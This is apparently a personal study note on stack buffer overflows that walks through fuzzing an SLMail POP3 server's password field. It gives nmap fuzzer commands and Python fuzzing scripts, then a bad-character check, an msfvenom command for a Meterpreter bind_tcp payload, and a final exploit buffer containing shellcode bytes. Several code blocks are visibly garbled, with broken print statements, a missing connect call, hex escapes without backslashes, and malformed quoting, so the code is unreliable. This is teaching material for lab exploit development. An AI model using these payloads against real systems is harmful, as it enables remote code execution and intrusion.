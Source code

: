 ```yaml
---
id: 2023-01-11-buffer-overflows
title: buffer overflows
metaTitle: Buffer Overflows | Anas's Digital Garden
metaDescription: buffer overflows | Anas's Digital Garden
createdDate: 2023-01-11
updatedDate: 2023-01-18
weekNumber: 202302
category: security/buffer-overflows
tags: ["buffer-overflows", "buffer-overflows"]
---
```


# Buffer Overflows

Those are the main ways of identifying flaws in applications

- If the source code of the application is available, then source code review is probably the easiest way to identify  
  bugs.
- If the application is closed source, you can use reverse engineering techniques, or fuzzing, to find bugs.

## A Look inside Stack while a Simple App is Running

![](./images/inside_stack.png)

## Fuzzing

- Fuzzing involves sending malformed data into application input and watching for unexpected crashes.
- An unexpected crash indicates that the application might not filter certain input correctly. This could lead to  
  discovering an exploitable vulnerability.
- Nmap Fuzzers:
  - NMap Fuzzer List  
    [https://nmap.org/nsedoc/categories/fuzzer.html](https://nmap.org/nsedoc/categories/fuzzer.html)

  - NMap HTTP Form Fuzzer

    ```
      nmap --script http-form-fuzzer --script-args
      'http-form-fuzzer.targets={1={path=/},2={path=/register.html}}'
      -p 80 $ip
    ```

  - Nmap DNS Fuzzer

    ```
    nmap --script dns-fuzz --script-args timelimit=2h $ip -d
    ```

- MSFvenom  
  [_https://www.offensive-security.com/metasploit-unleashed/msfvenom/_](https://www.offensive-security.com/metasploit-unleashed/msfvenom/)

### A Word about Dep and Aslr

- **DEP** (Data Execution Prevention) is a set of hardware, and software, technologies that perform additional checks on  
  memory, to help prevent malicious code from running on a system.
- The primary benefit of **DEP** is to help prevent code execution from data pages, by raising an exception, when  
  execution occurs.
- **ASLR** (Address Space Layout Randomization) randomizes the base addresses of loaded applications, and DLLs, every  
  time the Operating System is booted.

#### Interacting with the POP3 Protocol

> if the protocol under examination was unknown to us, we would either need to look up the RFC of the protocol format, or learn it ourselves, using a tool like Wireshark.

- To reproduce the netcat connection usage performed earlier in the course using a Python script, our code would look  
  similar to the following

```python
#!/usr/bin/python
import socket

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  print
  "\nSending vil buffer..."
  s.connect(('10.0.0.22', 110))  # connect to IP, POP3 port
  data = s.recv(1024)  # receive banner
  print
  data  # print banner

  s.send('USER   test' + '\r\n')  # end username "test"
  data = s.recv(1024)  # receive reply
  print
  data  # print reply

  s.send('PASS test\r\n')  # send password "test"
  data = s.recv(1024)  # receive reply
  print
  data  # print reply

  s.close()  # close socket
  print
  "\nDone!"

except:
  print
  "Could not connect to POP3!"
```

- Taking this simple script and modifying it to fuzz the password field during the login process is easy. The resulting  
  script would look like the following.

```python
#!/usr/bin/python
import socket

# Create an array of buffers, from 10 to 2000, with increments of 20.
buffer = ["A"]
counter = 100

while len(buffer) <= 30:
  buffer.append("A" * counter)
  counter = counter + 200

for string in buffer:
  print
  "Fuzzing PASS with %s bytes" % len(string)
  s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
  s.recv(1024)
  s.send('USER test\r\n')
  s.recv(1024)
  s.send('PASS ' + string + '\r\n')
  s.send('QUIT\r\n')
  s.close()
```

- Run this script against your SLMail instance, while attached to **Immunity Debugger**.
- The results of running this script shows that the **Extended Instruction Pointer (EIP)** register has been overwritten  
  with our input buffer of A's (the hex equivalent of the letter A is \x41).
- This is of particular interest to us, as the EIP register also controls the execution flow of the application.
- This means that if we craft our exploit buffer carefully, we might be able to divert the execution of the program to a  
  place of our choosing, such as a into the memory where we can introduce some reverse shell code, as part of our  
  buffer.

![Execution Halted in OllyDbg](../../assets/images/posts/buffer_overflow/33.png)

## Check for Bad Characters

```bash
>> python -c \
'print "A"*80 + "B"*4 + \
"x01x02x03x04x05x06x07x08x09x0ax0bx0cx0dx0ex0fx10" + \
"x11x12x13x14x15x16x17x18x19x1ax1bx1cx1dx1ex1fx20" + \
"x21x22x23x24x25x26x27x28x29x2ax2bx2cx2dx2ex2fx30" + \
"x31x32x33x34x35x36x37x38x39x3ax3bx3cx3dx3ex3fx40" + \
"x41x42x43x44x45x46x47x48x49x4ax4bx4cx4dx4ex4fx50" + \
"x51x52x53x54x55x56x57x58x59x5ax5bx5cx5dx5ex5fx60" + \
"x61x62x63x64x65x66x67x68x69x6ax6bx6cx6dx6ex6fx70" + \
"x71x72x73x74x75x76x77x78x79x7ax7bx7cx7dx7ex7fx80" + \
"x81x82x83x84x85x86x87x88x89x8ax8bx8cx8dx8ex8fx90" + \
"x91x92x93x94x95x96x97x98x99x9ax9bx9cx9dx9ex9fxa0" + \
"xa1xa2xa3xa4xa5xa6xa7xa8xa9xaaxabxacxadxaexafxb0" + \
"xb1xb2xb3xb4xb5xb6xb7xb8xb9xbaxbbxbcxbdxbexbfxc0" + \
"xc1xc2xc3xc4xc5xc6xc7xc8xc9xcaxcbxccxcdxcexcfxd0" + \
"xd1xd2xd3xd4xd5xd6xd7xd8xd9xdaxdbxdcxddxdexdfxe0" + \
"xe1xe2xe3xe4xe5xe6xe7xe8xe9xeaxebxecxedxeexefxf0" + \
"xf1xf2xf3xf4xf5xf6xf7xf8xf9xfaxfbxfcxfdxfexff"'
```

## Generate Meterpreter Bind-tcp Payload

```bash
>> msfvenom -p linux/x86/meterpreter/bind_tcp -b="0x00" -f python
```

```bash
# using output from last command we can create our full payload
python -c \
"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA" + \
"BBBB" + \
'print "A"*80 + "B"*4 + "x90" * (400 - 137) + \
"\xba\x8a\x2a\xb0\xa4\xd9\xed\xd9\x74\x24\xf4\x5d\x31" + \
"\xc9\xb1\x1c\x31\x55\x14\x03\x55\x14\x83\xed\xfc\x68" + \
"\xdf\xda\xd9\x34\xb9\xa9\x25\x7d\xb9\xdd\x29\x7d\x33" + \
"\x3e\x4f\xfc\xa0\xc1\x60\x33\xa6\xf3\x5b\x3c\x44\xa0" + \
"\x18\x91\xe1\x45\x16\xf4\x46\x2f\xe5\x76\xf7\xda\xf1" + \
"\x22\x92\x18\x90\xcb\x32\x8a\xed\x2a\xd8\xba\xb6\xc6" + \
"\x7b\x9b\x85\x96\x13\x98\xd2\x82\x42\xc4\x84\xf8\x1c" + \
"\xf8\x38\xed\x80\x96\x28\x5c\x69\xee\xa8\x34\xef\xa8" + \
"\xe7\x48\x3e\xab\x48\x2e\x0c\xac\xf9\xed\x3e\xcb\x70" + \
"\xa0\x3a\xd9\x03\xd1\xf5\xed\xb3\xd6\x34\x6d\x34\x07" + \
"\x9d\xde\x3d\x7a\xa2\xe0\xa3"'
```
